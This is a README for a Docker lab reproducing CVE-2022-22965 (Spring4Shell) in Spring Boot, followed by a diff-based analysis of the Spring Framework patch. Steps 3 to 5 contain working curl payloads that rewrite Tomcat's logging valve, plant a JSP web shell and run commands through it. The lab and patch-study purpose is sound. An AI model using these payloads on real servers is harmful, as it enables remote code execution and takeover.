

# Spring Boot CVE-2022-22965
Docker PoC for CVE-2022-22965 with Spring Boot version 2.6.5



## Getting Started
1. Download the distribution code from https://github.com/itsecurityco/CVE-2022-22965/archive/refs/heads/master.zip and unzip it.
2. Run `docker compose up --build` to build and start the vulnerable application.
3. Run `curl -H "Accept: text/html;" "http://localhost:8080/demo/itsecurityco?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7b%63%6f%64%65%7d%69&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="` to changes Tomcat config valve.
4. Run `curl -H "Accept: text/html;" -H "code: <% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter(String.valueOf(1337))).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1) { out.println(new String(b)); } %>" "http://localhost:8080/demo/x"` to create the web shell.
5. Open your browser and go to http://localhost:8080/shell.jsp?1337=id to start executing commands.

## Patch revision
The source code for Spring Framework 5.3.17 (vulnerable) and Spring Framework 5.3.18 (patched) can be downloaded respectively from: 

* https://github.com/spring-projects/spring-framework/archive/refs/tags/v5.3.17.zip
* https://github.com/spring-projects/spring-framework/archive/refs/tags/v5.3.18.zip

```
$ wget https://github.com/spring-projects/spring-framework/archive/refs/tags/v5.3.17.zip
$ wget https://github.com/spring-projects/spring-framework/archive/refs/tags/v5.3.18.zip
```

The vulnerability is found in the `/spring-beans/src/main/java/org/springframework/beans/CachedIntrospectionResults.java` file at line `290` where validation is applied for `Class.getClassLoader()` and `getProtectionDomain()` methods but not for `ClassLoader`, `ProtectionDomain` types and `PropertyDescriptors` names.

The difference between the vulnerable code and the patched code can be obtained with the command diff.
```
$ diff spring-framework-5.3.17/spring-beans/src/main/java/org/springframework/beans/CachedIntrospectionResults.java spring-framework-5.3.18/spring-beans/src/main/java/org/springframework/beans/CachedIntrospectionResults.java
24a25
> import java.security.ProtectionDomain;
289,291c290,296
< if (Class.class == beanClass &&
<                 ("classLoader".equals(pd.getName()) ||  "protectionDomain".equals(pd.getName()))) {
<         // Ignore Class.getClassLoader() and getProtectionDomain() methods - nobody needs to bind to those
---
> if (Class.class == beanClass && (!"name".equals(pd.getName()) && !pd.getName().endsWith("Name"))) {
>         // Only allow all name variants of Class properties
>         continue;
> }
> if (pd.getPropertyType() != null && (ClassLoader.class.isAssignableFrom(pd.getPropertyType())
>                 || ProtectionDomain.class.isAssignableFrom(pd.getPropertyType()))) {
>         // Ignore ClassLoader and ProtectionDomain types - nobody needs to bind to those
339a345,349
>                 if (pd.getPropertyType() != null && (ClassLoader.class.isAssignableFrom(pd.getPropertyType())
>                                 || ProtectionDomain.class.isAssignableFrom(pd.getPropertyType()))) {
>                         // Ignore ClassLoader and ProtectionDomain types - nobody needs to bind to those
>                         continue;
>                 }
```
